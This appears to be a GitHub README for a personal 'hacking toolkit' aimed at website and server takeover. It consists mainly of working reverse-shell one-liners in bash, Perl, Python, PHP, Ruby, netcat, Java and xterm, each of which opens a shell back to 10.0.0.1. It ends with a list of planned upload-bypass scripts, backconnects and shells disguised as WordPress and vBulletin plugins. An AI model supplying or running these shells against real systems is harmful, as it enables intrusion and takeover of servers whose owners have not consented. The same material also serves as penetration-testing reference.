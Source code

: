 # MyHackingToolkit
A set of shells to expedite website/server takeover, I will build this repo for my own use, if you believe you can use it and want to enhance, please create a pull-request or suggest enhancements to current scripts

## Reverse Shell
- [PentestMonkey.net](http://pentestmonkey.net/)
### Bash
Some versions of bash [can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell [here](http://www.plenz.com/reverseshell).


### Python
This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```xterm
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):

[Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)

## PHP
- a small script with wget command for file uploaders with different extensions .jpg.php .jpg;.php .phtml .php3 .php4 .php5
- a small script to download from github repo the main shells required for takeover testing
- symlinking scripts
- mysql pure shell
- vbulletin plugin or style
- wordpress theme
- wordpress plugin
- backconnect

## Perl
- cgi script
- cgi backconnect

# python shell

## .htaccess CheatSheet
